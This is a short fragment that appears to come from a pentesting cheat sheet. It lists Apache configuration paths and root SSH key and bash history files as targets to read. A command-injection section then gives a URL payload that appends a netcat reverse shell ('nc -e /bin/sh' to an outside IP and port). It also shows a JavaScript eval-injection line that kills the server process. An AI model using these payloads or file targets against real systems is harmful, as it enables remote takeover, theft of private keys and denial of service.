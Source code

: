 **Ubuntu**

```
/etc/apache2/apache2.conf  
/etc/apache2/httpd.conf  
/etc/apache2/apache2.conf  
/etc/httpd/httpd.conf  
/etc/httpd/conf/httpd.conf  
```

**FreeBSD**

```
/usr/local/etc/apache2/httpd.conf  

Hidden site?  
/etc/apache2/sites-enabled/000-default.conf  
```

**root/user ssh keys? .bash_history?**

```
/root/.ssh/id_rsa
/root/.ssh/id_rsa.keystore
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys
/root/.ssh/known_hosts
```


# 1.0 Command injection

---

If the application executes system commands based on user input and it is not sanitized, commands can be run on the server, e.g.:


```
  https://vulnerable.io/test.php?id=1 && nc -e /bin/sh 130.10.10.16 4444

```

in javascript if you use eval(), setTimeout(), setInterval(), Function() you can also do js injection


```
  process.kill(process.pid)
```